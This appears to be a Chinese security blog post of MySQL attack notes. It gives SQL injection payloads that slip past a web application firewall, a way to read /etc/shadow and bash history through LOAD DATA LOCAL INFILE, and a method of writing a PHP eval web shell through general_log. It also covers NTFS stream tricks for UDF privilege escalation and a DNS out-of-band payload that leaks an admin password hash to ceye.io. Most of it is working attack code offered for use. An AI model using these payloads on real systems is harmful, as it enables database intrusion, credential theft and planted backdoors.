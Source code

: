 ```yaml
---
title: mysql小记
date: 2018-4-5 8:50:30
tags: Web安全
toc: true
---
```


> 不管你是在研究什么事物，还是在思考任何观点，请只问你自己‘事实是什么’以及事实所证实的真理是什么。永远不要让自己被自己所更愿意相信的，或你认为人们相信了之后会对社会更加有益的东西所影响，只是简单的去审视，什么才是事实。--罗素

### sql Bypass dog
#### 步骤
测试是否存在

		and 1=1 绕过 %26%26 1 like 1  %26%26 1 in(1)
通常 order by 不会拦截

	order by组合中间有空格才拦截，空格替换 /**/ 直接绕过
	/*!order*/by 2   order%23%0aby 1
	/**/被拦  中间加字母与 ' ; [] ~ 等
asp允许在每个字符前加% 如 union sel%ect 
参数污染
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/mysql1.png)
#### 以下最新测试union可以Bypass dog(2018.4.1)

		原始语句
		select user()
		查user Bypass
		http://127.0.0.1/2.php?id=1/*!union/*!/*!*//*!select/*!/*!*//*!user/*!/*!()*/,2    
		查database
		http://127.0.0.1/2.php?id=1/*!union/*!/*!/*!select/*!/*!*//*!user/*!/*!/*!/*!()*/,/*!/*!/*!database/*!/*!/*!/*!()*/
		查表名
		union select group_concat(table_name) ,NULL from information_schema.tables where table_schema=database() 
		http://127.0.0.1/2.php?id=1/*!/*!/*!/*!UNION/*!/*!*//*!/*!/*!SELECT/*!/*!*//*!group_concat(table_name)/*!/*!*/,NULL/*!from/*!/*!*//*!information_schema.tables/*!/*!*//*!where/*!/*!*//*!table_schema=/*!/*!*//*!database/*!/*!()*/
		union select group_concat(column_name) ,NULL from information_schema.columns where table_name = ""
		查列名
		http://127.0.0.1/2.php?id=1/*!/*!/*!/*!UNION/*!/*!*//*!/*!/*!SELECT/*!/*!*//*!group_concat(column_name)/*!/*!*/,NULL/*!from/*!/*!*//*!information_schema.columns/*!/*!*//*!where/*!/*!*//*!table_name=""*/
		查值
		http://127.0.0.1/2.php?id=1/*!/*!/*!/*!UNION/*!/*!*//*!/*!/*!SELECT/*!/*!*//*!group_concat(concat(id,0x2c,content))/*!/*!*/,NULL/*!from/*!/*!table*/

group_concat与concat区别
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/mysql2.png)

#### FUZZ
借用从容大牛观点
以下[]为fuzz点。 

	select * from data where id=1 [] union [] select [] pwd [] from [] pwd

#### innodb_table_stats查表
innodb从5.5开始成为默认引擎
mysql 5.6有mysql库中有innodb_index_stats，innodb_table_stats表，
innodb_index_stats存储着innodb引擎的库名，表名，对应索引
innodb_table_stats存储着innodb引擎的库名，表名
以下payload可查表名，

	select table_name from mysql.innodb_table_stats where database_name = database()

#### 低权限读文件
如果没有权限，mysql还有个低权限读文件漏洞，/etc/shadow /root/.bash_history都可以读出来。

	MYSQL 5.5.53
	drop table mysql.m1
	CREATE TABLE mysql.m1 (code TEXT );
	LOAD DATA LOCAL INFILE '/root/.bash_history' INTO TABLE mysql.m1 fields terminated by ''
	select * from mysql.m1

### mysql主键重复报错原理

rand&group by&count缺一不可
rand(0)每次查询一样
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/mysql3.png)
floor(rand(0)*2)取整如下
![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/mysql4.png)

select count(*) from runoob group by floor(rand(0)*2);
floor(rand(0)*2)计算结果为 011011...
在使用group by时，查询有rand()会被执行多次，如果建的虚表中不存在，则在再次执行。
查询流程:

1 建立虚表

key | count(*)
---- | ----


2 执行floor(rand(0)*2) 为0表中没，再次执行结果为1插入

| key | count(*) |
| :--: | :--:    |
| 1    |     1   |

3 第一次计算为1，不进行2次计算，count(*)+1

| key | count(*) |
| :--: | :--:    |
| 1    |     2   |

4 计算为0，没有0，尝试插入，在插入时再次计算结果作为虚表主键，值为1冲突。

### mysql写shell

5.5，5.7通过log写。
小于5.5且secure_file_priv不为NULL,通过load_file() into dumpfile写。
[udf提权](https://xz.aliyun.com/t/2167)

原因：
secure_file_priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。
MySQL5.5版本：my.ini中无此参数，查询该参数情况为NULL
MySQL5.6版本：my.ini中无此参数，查询该参数情况为空
MySQL5.7版本：my.ini中有此参数，查询该参数情况为数据目录下的Upload文件夹
通过show variables like ‘%secure%’;查看参数情况，参数可在my.ini中改，重启生效。

dumpfile和oufile区别：
into outfile 函数会在行末端写入新行，是会转义换行符
这样的话这个2进制可执行文件就会被破坏，即格式化的数据。
into dumpfile 就能导出一个完整能执行的2进制文件

udf提权5.5版本默认没plugin目录，使用NTFS的ADS流创建(试了没成功)

		select 'aa' into dumpfile 'C:\\phpStudy\\PHPTutorial\\MySQL\\plugin::$INDEX_ALLOCATION';		//利用NTFS ADS创建plugin目录  
		select 'aa' into dumpfile 'C:\\phpStudy\\PHPTutorial\\MySQL\\lib::$INDEX_ALLOCATION';    //利用NTFS ADS创建lib目录  

通过general_log，general_log_file写shell。
置general为ON，general_log_file记录执行语句，执行包含的payload即可.
具体过程如下：

		show variables like '%general%';查看默认日志位置
		set global general_log = on;
		set global general_log_file = 'C:/Program Files (x86)/Apache Software Foundation/Apache2.2/htdocs/abouts.php'; 指定为目标网站的物理路径
		select '<?php eval($_POST[aaa]);?>'; 写shell
		还原：
		set global general_log_file = 'C:\ProgramData\MySQL\MySQL Server 5.5\Data\2018R2DC.log';
		set global general_log = off;  

### sql OOB

![](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/img/mysql5.png)
原理：dns查询带出数据
win利用
UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。CONCAT()函数4个\，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

payload

		select load_file(CONCAT('\\\\',(SELECT hex(pass) 
		FROM test WHERE name='admin'),'.uudjoj.ceye.io\\ff'))
Dnslog平台http://ceye.io